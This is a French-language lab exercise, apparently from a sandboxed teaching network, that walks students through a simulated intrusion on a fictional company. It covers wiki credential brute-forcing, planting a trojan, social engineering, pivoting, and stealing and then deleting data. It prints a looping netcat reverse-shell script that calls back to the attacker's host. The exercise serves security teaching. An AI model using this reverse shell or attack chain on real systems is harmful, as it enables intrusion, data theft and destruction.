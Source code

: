 Rappel: Vous devez être dans le répertoire `mi-lxc` pour exécuter ces commandes.

> Si après avoir lancé la commande `display` votre souris reste bloquée, appuyez sur `CTRL+SHIFT` pour la libérer.

Déroulement général
===================

Votre objectif est de voler et détruire les informations internes de l'entreprise _Target_ (données comptables, base clients). Pour ce faire, vous travaillerez exclusivement sur la machine du hacker `isp-a-hacker`. Une première reconnaissance vous a amené à savoir que votre cible héberge un wiki sur `http://www.target.milxc`. Vous devrez réaliser les étapes suivantes :

* Récupération d'une adresse mail interne sur le wiki
* Altération du wiki en y intégrant un cheval de Troie prêt à être téléchargé par un interne
* Manipulation du commercial pour lui faire installer ce cheval de Troie (via un téléchargement interne donc plus crédible qu'une pièce jointe)
* Utilisation du cheval de Troie pour scanner le réseau interne
* Pivot vers la machine hébergeant les données ciblées
* Transfert puis suppression des données comptables et de la base clients
* Profit $$$

Le fil proposé ne couvre bien sûr pas l'ensemble des possibilités mais vise à montrer la diversité des moyens qu'un attaquant peut mettre en œuvre.

Préparation du cheval de Troie
==============================

Pour contrôler la machine du commercial, nous allons créer puis transmettre un cheval de Troie. Notre but est d'obtenir un shell sur la machine du commercial afin de l'utiliser comme pivot. Cependant, comme le firewall n'autorise pas les connexions vers l'intérieur de l'entreprise, nous allons plus spécifiquement envoyer un reverse-shell : c'est la machine du commercial qui initiera la connexion vers la machine du hacker.

Le code exemple suivant est disponible sur la machine du hacker (`/home/debian/tp/intrusion/trojan.sh`) :
```
#!/bin/bash
while [ 1 ]; do
	/bin/nc <IP Hacker> <Port Hacker> -q0 -e /bin/bash;
	sleep 1;
done
```

* Étudiez ce petit script, son fonctionnement, le programme nc (netcat). Pourquoi y a-t-il une boucle infinie ?
* Configurez et manipulez ce script en local pour ouvrir un reverse-shell avec vous-mêmes.
* Il existe plusieurs façons d'améliorer le shell obtenu (interactivité, gestion Ctrl-C, sortie d'erreur, autocomplétion, etc.), vous pouvez par exemple remplacer nc par socat comme expliqué [ici](https://artkond.com/2017/03/23/pivoting-guide/#beutifying-your-web-shell) ou appeler nc dans rlwrap.

> Une fois ce point compris, signalez-vous à un enseignant pour en discuter de vive voix

Altération du wiki
==================

Le wiki est accessible publiquement mais une authentification est nécessaire pour lire et écrire. Vous disposez dans le dossier `/home/debian/tp/intrusion` d'un script `dokuwiki.py` pour tenter de _bruteforcer_ l'authentification. Étudiez son fonctionnement puis tentez de découvrir un accès. Pour vous aider, des listes de mots de passes communs sont disponibles sur internet ([Wikipedia](https://en.wikipedia.org/wiki/Wikipedia:10,000_most_common_passwords)), un dictionnaire au format adapté au script fourni est proposé [ici](passwords.txt). À partir de cet accès, créez une page crédible (mise à jour, installation d'un logiciel, etc.), intégrant le `.sh` que vous aurez préparé comme reverse-shell.
